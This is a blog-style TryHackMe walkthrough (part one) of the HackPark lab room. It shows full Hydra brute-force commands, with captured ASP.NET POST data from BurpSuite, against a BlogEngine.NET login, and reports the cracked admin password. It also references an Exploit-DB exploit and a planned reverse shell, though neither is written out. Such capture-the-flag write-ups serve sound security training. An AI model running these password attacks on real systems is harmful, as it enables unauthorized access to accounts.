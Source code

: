```yaml
---
title: THM Room Walkthrough - HackPark
date: '2025-01-23 19:34:56 +0000'
author: b3rdma
categories:
  - Hacking
  - Try Hack Me
tags:
  - hydra
  - enumeration
  - exploit-db
  - burp suite
description: Part one of the THM room HackPark walkthrough.
---
```

# Part 1  
## Contents
### Table of contents

<!-- toc -->

- [Task 1 - Deploy the Machine](#task-1---deploy-the-machine)
  * [To scan or not to scan...](#to-scan-or-not-to-scan)
  * [Reverse-Image Search](#reverse-image-search)
- [Task 2 - Using Hydra to Brute-Force a login](#task-2---using-hydra-to-brute-force-a-login)
  * [BurpSuite to the rescue](#burpsuite-to-the-rescue)
- [Task 3 - Compromise the machine](#task-3---compromise-the-machine)
- [Task 4 - Windows Privilege Escalation](#task-4---windows-privilege-escalation)

<!-- tocstop -->

## Task 1 - Deploy the Machine
### To scan or not to scan...

Simple first task here; deploy the machine and answer a question about the
clown. The question asks who is the clown on the homepage so I took a 'gamble'
and entered the target ip address direct in to the browser _without_ performing
an `nmap` scan first. 

### Reverse-Image Search

It paid off as I went straight to homepage of the site and saw the clown from
the **IT** film. To answer the question of who he is, I saved the image and did
a google reverse-image search and found the name is _Pennywise_; I should really
have known that but it's been a while since I seen the film and it's good
practice to do a reverse image search. On to task 2. 

## Task 2 - Using Hydra to Brute-Force a login

I had a few issues running the Hydra command as it's been a while since I used
it and there were no entries in the results from `history | rg hydra`. First few
commands were along the lines of:

```bash
hydra -l admin -P rockyou.txt 10.10.5.178 http-post-form
"/Account/login.aspx:username=^USER^&password=^PASS^:F=AdminStatus"
```
If the fail part of the above command (`F=AdminStatus`) is not accurate, Hydra
will return a default of 16 correct passwords, all of which are actually
incorrect. This is because Hydra is not seeing the failed login condition and
therefore stops at 16 '_successful_' attempts. 

### BurpSuite to the rescue

I cracked open BurpSuite and enabled the proxy intercept. Going to the login
page and adding _admin_ and _password_ to the fields, clicking the login button
and seeing the actual submit data, I was not surprised that Hydra was having
trouble. So, the actual data being sent in the POST request is as follows:

```html
__VIEWSTATE=WOnPg3iFnDFsh2GWZ0Bg2xnaOwQfKyJ9XMttcsvYjKp95LUHYTGIT%2Bu7WMtLtiVssQYi0Qj%2FvEQXZukNxlR45PVnKkEXe83uwXAgnSxUIw4tHkOPl03E%2BBjrh2evMXJ4on5bFBpTvSGGwQAawZUHWIhzJirukfvmZSysNFuxLCLxnngnEvkHc0aorbzi1n4Wj108uXc%2BWeryeW4vrfpXhnTcC5tISIGhvT1iTEnWkPC4sVEbkaBPmW3Scnz1B8HS7RaX%2FiMBqK20mK9b5w28VQWogog2cariWCJKhPq5rxFwFwGlkg6qF4TVob4TYggPjTazciOcpFeiop2y2SyT3QdaP%2B%2BIOCPY%2BRf4w9peYS1o8VT9&__EVENTVALIDATION=1mN%2BUGQZVTLoa7qjhhisVpdMl0tPwQyM7T6L08nsPNwbJ%2FotrHfQ4wA1Lh%2BvTtpfBGwPVp1evCEmyFFKzZ0St1lyriBj9zhg9uyX9OOKG6AXp%2FUp6OayJoPIva3S8ATrTWCw6D06wEX6oIJtXc3cAlQjhKJDLDLXhwlh368sfqqYYiYK&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
```
It is this huge amount of code that needs to be included in the Hydra command.
This is typically something along the lines of
`unsername=admin&password=password123` but not in this case!
Note in the above data I have already replaced the `Password=password` with the
Hydra version, `Password=^PASS^`. The full Hydra command that produces the
result is:

```bash
hydra -l admin -P rockyou.txt 10.10.5.178 http-post-form
"/Account/login.aspx:__VIEWSTATE=WOnPg3iFnDFsh2GWZ0Bg2xnaOwQfKyJ9XMttcsvYjKp95LUHYTGIT%2Bu7WMtLtiVssQYi0Qj%2FvEQXZukNxlR45PVnKkEXe83uwXAgnSxUIw4tHkOPl03E%2BBjrh2evMXJ4on5bFBpTvSGGwQAawZUHWIhzJirukfvmZSysNFuxLCLxnngnEvkHc0aorbzi1n4Wj108uXc%2BWeryeW4vrfpXhnTcC5tISIGhvT1iTEnWkPC4sVEbkaBPmW3Scnz1B8HS7RaX%2FiMBqK20mK9b5w28VQWogog2cariWCJKhPq5rxFwFwGlkg6qF4TVob4TYggPjTazciOcpFeiop2y2SyT3QdaP%2B%2BIOCPY%2BRf4w9peYS1o8VT9&__EVENTVALIDATION=1mN%2BUGQZVTLoa7qjhhisVpdMl0tPwQyM7T6L08nsPNwbJ%2FotrHfQ4wA1Lh%2BvTtpfBGwPVp1evCEmyFFKzZ0St1lyriBj9zhg9uyX9OOKG6AXp%2FUp6OayJoPIva3S8ATrTWCw6D06wEX6oIJtXc3cAlQjhKJDLDLXhwlh368sfqqYYiYK&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login
failed"
```
Quite the mouthful eh. 

Success with Hydra informing us that `login: admin` and `password: 1qaz2wsx` are
working. On to Task 3. 

## Task 3 - Compromise the machine

First question is found after logging in and clicking on the about link on the
left. Too easy. 

In this section, the answer to question 3 is also there and is labeled _Identity:_ so not hard to find either.

> Technically speaking, we're supposed to answer this question _after_ we get access to the machine and not from this part. I think it was just lucky that the answer was displayed on the about page.
{: .prompt-warning}

The answer to question 2 is found by searching for '_blogengine.net_' on
[Exploit-DB](https://www.exploit-db.com/exploits/46353) and making sure you find
the exploit for the version of blogengine.net as applicable. 

Although that is all the questions answered for Task 3, we still need to run the
exploit on the machine to get ourselves a reverse shell. 


That is Task 3 complete, now on to Task 4. I will run the exploit and start Task
4 soon.

## Task 4 - Windows Privilege Escalation

To be continued in Part 2 when I get the time to spin up the room again. Watch this space...



